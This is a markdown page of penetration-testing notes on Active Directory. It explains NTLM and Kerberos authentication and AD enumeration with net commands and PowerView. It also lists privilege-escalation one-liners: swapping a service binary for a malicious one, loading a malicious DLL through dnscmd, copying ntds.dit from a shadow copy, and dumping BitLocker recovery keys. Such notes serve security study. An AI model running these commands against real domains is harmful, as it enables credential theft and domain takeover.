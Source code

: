 ```yaml
---
layout: blank
pagetitle: Active Directory Information and Enumeration
---
```


## AD Authentication

**NTLM**
- Used when authenticating via IP address (not hostname) or a hostname not present on the AD DNS server
- Steps are:
	- Calculate NTLM Hash
	- Send username to application server
	- App server sends nonce
	- Client encrypts nonce using their hash and sends both to app server
	- App server sends client response, username, and nonce to the DC (user's hash unknown)
	- DC encrypts nonce with NTLM hash (already known) of the user and compares to response
	- If valid, DC approves authentication

**Kerberos**
- Adopted from Kerberos v5 from MIT, used as primary auth method since 2003
- Uses a ticket system, DC acts as a Key Distribution Center (KDC)
- Rather than authenticating against the application, clients get a ticket from the KDC
- Steps:
	- Client sends Authentication Server Request (AS-REQ) to the DC
		- This contains a timestamp encrypted using the hash derived from the user's username and password
	- DC receives request and looks up the password hash of the user in the `ntds.dit` file, using it to decrypt the timestamp
	- If the decryption is successful and the timestamp is unique, auth is granted
	- DC then sends client an Authentication Server Reply (AS-REP), containing a session key and a ticket-granting ticket (TGT)
		- Session key can be decrypted with user hash and reused
		- TGT contains user and domain info, IP address of client, timestamp, and a session key
			- The TGT is encrypted using the NTLM hash of the krbtgt user
			- TGT is valid for 10 hours by default and is automatically renewed while session remains active
	- Client constructs a Ticket-Granting Service Request (TGS-REQ) consisting of the current user and timestamp encrypted with the session key, resource name, and encrypted TGT and sends that back to the DC/KDC
	- The DC then ensures the resource exists and decrypts the TGT with its secret key and extracts the session key for the username and timestamp of the request
	- The KDC then performs the following checks:
		- The TGT has a valid timestamp
		- The username from the TGS-REQ matches the username of the TGT
		- The client IP address coincides with the TGT IP address
	- If those checks pass, the KDC responds with a Ticket-Granting Server Reply (TGS-REP), containing three parts:
		- Name of the service access granted for
		- 2nd session key to be used between the client and service
		- Service ticket containing the username, group memberships, and 2nd session key
	- Now that the client has a session key and a service ticket, it sends the application an Application Request (AP-REQ) including the username/timestamp encrypted with the service ticket session key and the ticket itself
	- The application server decrypts the service ticket using its account password hash, extracting the username/session key, using the session key to decrypt the username from the AP-REQ. If they match, the service assigns the appropriate permissions to the user based on the group memberships in the ticket, and access is granted

## Manual Enumeration

**Enumeration using Windows Tools**
- `net user /domain` will display all domain user accounts
	- `net user {user} /domain`
		- This shows comments on a user, which can contain passwords
		- This also shows logon scripts, which can be interesting
- `net group /domain` will give us the domain groups
	- A group assigns permissions to resources (users and other groups)
	- `net group "{group}" /domain`
	- Some uncommon but useful groups:
		- https://ss64.com/nt/syntax-security_groups.html - all groups
		- AD Recycle Bin 
			- Can read deleted AD objects
			- `Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects`
			- `Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName={name})(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *`
		- (Enterprise) Key Admins
			- Used for managing Bitlocker keys
			- `Get-ADComputer -Filter * -Properties msFVE-RecoveryPassword | Select-Object Name, 'msFVE-RecoveryPassword'`
		- Pre–Windows 2000 Compatible Access
			- Can read most objects due to compatability
			- `Get-ADUser -Filter * -Properties MemberOf | Select-Object Name, MemberOf`
			- `Get-ADObject -LDAPFilter "(&(objectCategory=Person)(objectClass=user))" -Properties *`
		- Server Operators
			- Can modify service binaries and restart them
			- `sc.exe config YourServiceName binPath= "C:\path\to\malicious\binary.exe"`
			- `sc.exe start YourServiceName`
		- Print Operators
			- Can be good for DLL hijacking
			- `rundll32.exe C:\path\to\malicious.dll,MainEntryPoint`
		- Account Operators
			- Can add permissions to users or users to groups, such as becoming a local Administrator or managing a service running with higher privileges
			- `net localgroup Administrators TargetUser /add`
			- `sc.exe sdset "ServiceName" "D:(A;;CCLCRPRC;;;S-1-5-21-[SID of TargetUser])"`
		- Backup Operators
			- Can backup sensitive files, like NTDS.dit
			- `vssadmin create shadow /for=C:` 
			- `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit`
		- Dns Admins
			- Can perform dll hijacking to priv esc
			- `dnscmd /config /serverlevelplugindll \\malicious\share\malicious.dll`


## Enumeration with PowerView
- https://powersploit.readthedocs.io/en/latest/Recon/
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
	- Import it using `Import-Module .\PowerView.ps1`
	- Don't wget the mf repo dumbass
- Enumeration commands
	- `Get-NetDomain` - gives basic domain info
	- `Get-NetUser` - lists users within the domain
		- Lotta info, so select the user (and other info) with `Get-NetUser | select CN,pwdlastset,lastlogon`
		- List descriptions: `Get-NetUser | Select-Object SamAccountName, Description`
		- Can also list service users with `-SPN`
	- `Get-NetGroup` - enumerate groups
	- `Get-NetComputer` - enumerate computer objects in the domain
		- `Get-NetComputer | select operatingsystem,dnshostname`
		- For all IPs `Get-NetComputer | ForEach-Object { $_.dnshostname | ForEach-Object { [System.Net.Dns]::GetHostAddresses($_) | Select-Object IPAddressToString } }`
	- `Find-LocalAdminAccess` - determines if our user has administrative permissions on any computers in the domain
		- Uses the Service Control Manager, which maintains database of installed services and drivers on all Windows computers
        - `PsLoggedOn.exe` - uses Remote Registry service to enumerate registry keys to see who's logged on to a system
        	- Not enabled by default on workstations since Windows 8, but it enabled by default on servers like 2012, 2016, 2019, and 2022
        	- Usage: `.\PsLoggedOn.exe \\{computer name}`
        	- Works well with `Find-LocalAdminAccess` since we know where to target user hashes
	- `Get-NetSession -ComputerName {computername} -Verbose `
		- This one can return no data/wrong data depending on permissions
	- `Get-ObjectAcl -Identity {user} > output.txt` - Returns all access control entries (forming an Access Control List) for the user
		- `Convert-SidToName` will convert a SID to a domain name object
		- `ActiveDirectoryRights` can be pretty interesting, as `GenericAll` is the highest access permissions for an object
			- `Get-ObjectAcl -Identity {identity} | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights` will show all SIDs that have GenericAll for the `identity` passed
				- The `identity` passed can be something like a domain group or user
			- Can then `{sid} | Convert-SidToName` to see what objects have those permissions on that identity
				- Can also just `Get-ObjectAcl -Identity "{identity}" | Where-Object { $_.ActiveDirectoryRights -eq "GenericAll" } | Select-Object -ExpandProperty SecurityIdentifier | Convert-SidToName`
	- `Find-DomainShare` will list all domain shares
		- Domain shares can be shared folders/files, printers, or other resources
		- Look for interesting shares, like NETLOGON, SYSVOL, backups, docshares, or tools
		- Can view internals using `ls \\{domain}\{share}` and read files with `cat`
			- Will sometimes find encrypted Group Policy Preferences passwords, which have a known key and can be decrypted in kali with `gpp-decrypt`


## ADCS

**Overview of ADCS**
- ADCS implements Public Key Infrastructure (PKI) in Windows domains, providing certificates for secure communication, user authentication, and more.
- It integrates tightly with Active Directory, enabling automated certificate issuance and renewal.
- Common uses include:
    - Smart card logon
    - Encrypting File System (EFS)
    - Wi-Fi and VPN authentication

**Key Components**
- Certificate Authority (CA): Issues, revokes, and manages certificates.
- Enrollment Services: Allows users and computers to request certificates via interfaces like the Certificate Enrollment Web Service (CES).
- Certificate Templates: Define certificate properties, validity periods, and permissions.